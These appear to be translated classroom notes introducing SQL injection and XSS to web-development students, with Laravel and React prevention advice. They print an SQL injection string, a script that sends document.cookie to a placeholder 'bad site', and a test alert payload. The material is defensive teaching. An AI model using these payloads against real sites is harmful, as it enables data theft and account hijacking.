


# About SQL Injection and XSS

> 🇯🇵 Original (Japanese version): [SQLインジェクションとXSSについて.md](<../../../2年生_システム開発実践/後期/2026_11_20/SQLインジェクションとXSSについて.md>) <!-- original-ja-link -->

Web apps have lots of **input fields**.
Attackers type **unusual characters** into them to try to break the app or steal data.
Here, we'll look at two typical attacks on web apps: **SQL injection** and **XSS**.

[Back to the Free Project](../2026_10_09/2026_10_09_資料1.md)

---

## 1. In a Nutshell

| Name | Full name | What happens? | What's targeted |
|------|-------|-----------|------------|
| **SQL injection** | SQL Injection | **SQL is slipped in** through an input field → data can be viewed or deleted | **The database** |
| **XSS** | Cross-Site Scripting | **JavaScript is slipped in** through an input field → it runs in other people's browsers | **Other people's browsers** |

Both have the same cause: **using entered text directly as a "command"**.

---

## 2. SQL Injection

### How does the attack work?

Suppose a login screen **concatenates the entered email address directly into an SQL query**.

```php
// ✕ Dangerous way to write it
$sql = "SELECT * FROM users WHERE email = '" . $email . "'";
```

A normal user types `taro@example.com`.

```sql
SELECT * FROM users WHERE email = 'taro@example.com'
```

But if an attacker types `' OR '1'='1`...

```sql
SELECT * FROM users WHERE email = '' OR '1'='1'
```

`'1'='1'` is **always true**, so the query returns **every user**.
Depending on what's typed, an attacker may even run `DELETE` or `DROP TABLE` and **wipe out all the data**.

Here's what the attack looks like as a diagram.



> 💡 **Think of it like an "order slip"**
> Imagine a restaurant rule where the staff **reads out the customer's order slip exactly as written**.
> If the slip says, "One ramen. **And also, give me all the money in the register**"... it gets carried out as is.

### How do you prevent it?

Make sure **the entered value is treated as "just a value," not as an SQL "command."**
This technique is called using a **placeholder** (parameter binding).

```php
// ◯ Safe way to write it (the value is bound to the ? placeholder)
$users = DB::select('SELECT * FROM users WHERE email = ?', [$email]);
```

**Laravel's Eloquent and query builder use placeholders automatically.**

```php
// ◯ Safe (automatically uses placeholders)
$user = User::where('email', $email)->first();
```

| How it's written | Safe? |
|-------|------|
| `User::where('email', $email)` | ◯ Safe |
| `DB::select('... WHERE email = ?', [$email])` | ◯ Safe |
| `DB::select("... WHERE email = '$email'")` | ✕ Dangerous (inserts the text directly into the query) |
| Putting input directly into `DB::raw(...)` or `whereRaw(...)` | ✕ Dangerous |

> 📝 The Supabase JavaScript library (`supabase.from('books').select()...`) also handles values safely.

---

## 3. XSS (Cross-Site Scripting)

### How does the attack work?

Say that on a message board or in a comment section, you were **displaying the entered text directly as HTML**.
If an attacker writes something like this in the comment section...

```html
<script>
  // Malicious code goes here
  fetch('https://悪いサイト/?data=' + document.cookie)
</script>
```

When **someone else opens that page**, this JavaScript **runs in their browser**.
Their login information could be stolen, or posts could be made without their permission.



### How do you prevent it?

When displaying text, **replace special characters with HTML character references**, like `<` with `&lt;` and `>` with `&gt;`.
This is called **escaping**. Once escaped, `<script>` is just **shown on the screen as text** and doesn't run.

**Both Blade and React (Next.js) escape automatically if you write things the normal way.**

| Technology | ◯ Safe (escaped) | ✕ Dangerous (not escaped) |
|-----|------------------------|---------------------------|
| Laravel (Blade) | `{{ $book->review }}` | `{!! $book->review !!}` |
| React (Next.js) | `<p>{book.review}</p>` | `<p dangerouslySetInnerHTML={{ __html: book.review }} />` |

> ⚠️ **Never use `{!! !!}` or `dangerouslySetInnerHTML` for text entered by users**
> React's `dangerouslySetInnerHTML` is so risky that it even has **dangerously** in its name.

---

## 4. What the Two Have in Common

| | SQL injection | XSS |
|---|---|---|
| Cause | Using input as an **SQL command** | Using input as **HTML or JavaScript** |
| Prevention | **Placeholders** (use Eloquent or the query builder) | **Escaping** (display with `{{ }}` or `{ }`) |
| If you use a framework | Protected automatically | Protected automatically |

> 💡 **Never trust user input**
> A basic principle of security is to assume that you don't know what user input contains.
> If you write things **the normal way** for your framework, many attacks are blocked automatically.
> **Be especially careful when you use unusual approaches (`raw`, `{!! !!}`, `dangerouslySetInnerHTML`).**

---

## 5. Test Your Own App

Try entering the following text in an input field in your own app and saving it.

```
<script>alert('XSS')</script>
```

| Result | Meaning |
|-----|------|
| `<script>alert('XSS')</script>` **appeared on the screen as plain text** | ◯ Safe (it's being escaped) |
| **An alert popped up** | ✕ Dangerous → check the part that displays it |

> ⚠️ **Never try this on anything other than your own app**
> Trying this kind of input on other people's sites may be treated as **unauthorized access** and can be punished by law.

---

## 6. Summary

- **SQL injection** = **SQL** is slipped in through an input field and used to manipulate the database
- **XSS** = **JavaScript** is slipped in through an input field, and it runs in other people's browsers
- Both are caused by **using input directly as a command**
- Prevent them with **placeholders** (SQL) and **escaping** (display)
- Laravel and Next.js **protect your app automatically when you write things the normal way**. Watch out for `raw`, `{!! !!}`, and `dangerouslySetInnerHTML`
- Only test on **your own app**

[Back to the Free Project](../2026_10_09/2026_10_09_資料1.md)
